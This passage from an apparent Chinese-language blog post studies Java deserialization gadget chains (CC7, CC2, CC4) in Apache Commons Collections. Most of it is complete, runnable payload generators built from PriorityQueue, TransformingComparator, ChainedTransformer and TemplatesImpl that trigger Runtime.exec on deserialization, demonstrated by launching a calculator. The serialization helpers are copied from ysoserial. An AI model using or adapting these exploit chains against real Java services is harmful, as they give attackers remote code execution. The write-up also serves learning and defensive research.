                if (!value.equals(m.get(key))) //点 o = LazyMap
                    return false;
            }
        }
    } catch (ClassCastException unused) {
        return false;
    } catch (NullPointerException unused) {
        return false;
    }

    return true;
}
```



key = LazyMap

```java
private void readObject(java.io.ObjectInputStream s)
     throws IOException, ClassNotFoundException
{
    // Read in the length, threshold, and loadfactor
    s.defaultReadObject();

    // Read the original length of the array and number of elements
    int origlength = s.readInt();
    int elements = s.readInt();

    // Compute new size with a bit of room 5% to grow but
    // no larger than the original size.  Make the length
    // odd if it's large enough, this helps distribute the entries.
    // Guard against the length ending up zero, that's not valid.
    int length = (int)(elements * loadFactor) + (elements / 20) + 3;
    if (length > elements && (length & 1) == 0)
        length--;
    if (origlength > 0 && length > origlength)
        length = origlength;
    table = new Entry<?,?>[length];
    threshold = (int)Math.min(length * loadFactor, MAX_ARRAY_SIZE + 1);
    count = 0;

    // Read the number of elements and then all the key/value objects
    for (; elements > 0; elements--) {
        @SuppressWarnings("unchecked")
            K key = (K)s.readObject(); // 点 key=LazyMap
        @SuppressWarnings("unchecked")
            V value = (V)s.readObject();
        // synch could be eliminated for performance
        reconstitutionPut(table, key, value);
    }
}
```

具体的分析过程就不嫌丑了

[https://infernity.top/2024/04/18/JAVA%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-CC7%E9%93%BE/]

### CC2

之所以把CC2和CC4放到后边，是因为lib变了，CC2和CC4是在(老得链子 只要把包名字和类名字改好 一样能用)

```
commons-collections4
```

出现的，我们之前都是commons-collections

Maven如下

```xml
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
```

后边还是使用ChainedTransformer来进行命令执行，只是前边的不一样了

```
PriorityQueue.readObject
    TransformingComparator.compare
        ChainedTransformer
```

首先看一下PriorityQueue.readObject，

```java
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    // Read in size, and any hidden stuff
    s.defaultReadObject();

    // Read in (and discard) array length
    s.readInt();

    queue = new Object[size];

    // Read in all elements.
    for (int i = 0; i < size; i++)
        queue[i] = s.readObject();

    // Elements are guaranteed to be in "proper order", but the
    // spec has never explained what that might be.
    heapify();
}
```

都是一些从反序列化数据中，读取的操作，看heapify

```java
private void heapify() {
    for (int i = (size >>> 1) - 1; i >= 0; i--)
        siftDown(i, (E) queue[i]);
} // 要让size和queue不能为空，才能走进来
```

```java
private void siftDown(int k, E x) {
    if (comparator != null)
        siftDownUsingComparator(k, x);
    else
        siftDownComparable(k, x);
}
```

```java
private void siftDownUsingComparator(int k, E x) {
    int half = size >>> 1;
    while (k < half) {
        int child = (k << 1) + 1;
        Object c = queue[child];
        int right = child + 1;
        if (right < size &&
            comparator.compare((E) c, (E) queue[right]) > 0)
            c = queue[child = right];
        if (comparator.compare(x, (E) c) <= 0)
            break;
        queue[k] = c;
        k = child;
    }
    queue[k] = x;
}//size 至少=2
```
```
到这里就算是可以了，问题是可以给comparator赋值为一个TransformingComparator吗

PriorityQueue:private final Comparator<? super E> comparator;

public class TransformingComparator<I, O> implements Comparator<I>, Serializable
```

```
TransformingComparator的父类类型，可以赋值给comparator
```

```java
public int compare(I obj1, I obj2) {
    O value1 = this.transformer.transform(obj1);
    O value2 = this.transformer.transform(obj2);
    return this.decorated.compare(value1, value2);
}
```

到这里链子就通了，让

PriorityQueue:Comparator = TransformingComparator
TransformingComparator:transformer = ChainedTransformer


进行构建

```java
package Payload.CC;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;

import java.io.IOException;
import java.util.Base64;
import java.util.Comparator;
import java.util.PriorityQueue;

import static Ser.Serial.serialize;
import static Ser.UnSerial.deserialize;

public class CC2 {
//    TransformingComparator
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -na Calculator"})
        };
        ChainedTransformer chainedTransformer =  new ChainedTransformer(transformers);
        Comparator transformingComparator = new TransformingComparator(chainedTransformer);
        PriorityQueue queue = new PriorityQueue(transformingComparator);
        queue.add(1);
        queue.add(2);
        byte[] ser = serialize(queue);
        String b64 = Base64.getEncoder().encodeToString(ser);
        System.out.println(b64);
        deserialize(Base64.getDecoder().decode(b64));

    }
}

```

执行发现会报错，命令执行了，但是不能反序列化

我没有通过动态调试去看为什么发生这种情况，大概猜一下就是在add的时候触发了compare导致了报错，程序停了，所以可以使用和之前一样的解决方法，在最后再把transformer放进去

#### Payload

```java
package Payload.CC;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;

import java.io.IOException;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.Comparator;
import java.util.PriorityQueue;

import static Ser.Serial.serialize;
import static Ser.UnSerial.deserialize;

public class CC2 {
//    TransformingComparator
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -na Calculator"})
        };
        ChainedTransformer chainedTransformer =  new ChainedTransformer(transformers);
        Comparator transformingComparator = new TransformingComparator(chainedTransformer);
        PriorityQueue queue = new PriorityQueue();
        queue.add(1);
        queue.add(2);
        Class queueClass = queue.getClass();
        Field queueComparator = queueClass.getDeclaredField("comparator");
        queueComparator.setAccessible(true);
        queueComparator.set(queue, transformingComparator);

        byte[] ser = serialize(queue);
        String b64 = Base64.getEncoder().encodeToString(ser);
        System.out.println(b64);
//        deserialize(Base64.getDecoder().decode(b64));

    }
}

```

### CC4

后边是CC3，前边是CC2，直接拼接一下

#### Payload

```java
package Payload.CC;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.Comparator;
import java.util.PriorityQueue;

import static Ser.Serial.serialize;
import static Ser.UnSerial.deserialize;

public class CC4 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    //    TransformingComparator
    public static void main(String[] args) throws Exception {

        byte[] code = Files.readAllBytes(Paths.get("/Users/gh03t/Documents/code/java/JavaSerStudy/target/classes/Payload/CC/Evil.class"));
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][] {code});
        setFieldValue(obj, "_name", "aaa");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Transformer[] transformer = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer( new Class[] { Templates.class }, new Object[] { obj })
        };
        ChainedTransformer transformerChain = new ChainedTransformer(transformer);
        Comparator transformingComparator = new TransformingComparator(transformerChain);
        PriorityQueue queue = new PriorityQueue();
        queue.add(1);
        queue.add(2);
        Class queueClass = queue.getClass();
        Field queueComparator = queueClass.getDeclaredField("comparator");
        queueComparator.setAccessible(true);
        queueComparator.set(queue, transformingComparator);

        byte[] ser = serialize(queue);
        String b64 = Base64.getEncoder().encodeToString(ser);
        System.out.println(b64);
        deserialize(Base64.getDecoder().decode(b64));

    }
}

```


### ser包代码


抄的 ysoserial

```java
package Ser;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.io.OutputStream;
import java.util.concurrent.Callable;

public class Serial implements Callable<byte[]> {
    private final Object object;
    public Serial(Object object) {
        this.object = object;
    }

    public byte[] call() throws Exception {
        return serialize(object);
    }

    public static byte[] serialize(final Object obj) throws IOException {
        final ByteArrayOutputStream out = new ByteArrayOutputStream();
        serialize(obj, out);
        return out.toByteArray();
    }

    public static void serialize(final Object obj, final OutputStream out) throws IOException {
        final ObjectOutputStream objOut = new ObjectOutputStream(out);
        objOut.writeObject(obj);
    }

}
```

```java
package Ser;

import java.io.ByteArrayInputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.InputStream;
import java.io.ObjectInputStream;
import java.util.concurrent.Callable;

public class UnSerial implements Callable<Object> {
    private final byte[] bytes;

    public UnSerial(byte[] bytes) { this.bytes = bytes; }

    public Object call() throws Exception {
        return deserialize(bytes);
    }

    public static Object deserialize(final byte[] serialized) throws IOException, ClassNotFoundException {
        final ByteArrayInputStream in = new ByteArrayInputStream(serialized);
        return deserialize(in);
    }

    public static Object deserialize(final InputStream in) throws ClassNotFoundException, IOException {
        final ObjectInputStream objIn = new ObjectInputStream(in);
        return objIn.readObject();
    }

    public static void main(String[] args) throws ClassNotFoundException, IOException {
        final InputStream in = args.length == 0 ? System.in : new FileInputStream(new File(args[0]));
        Object object = deserialize(in);
    }
}
```

### 心得

也是第一次写博客，非常欠缺书面表达，以后再改吧
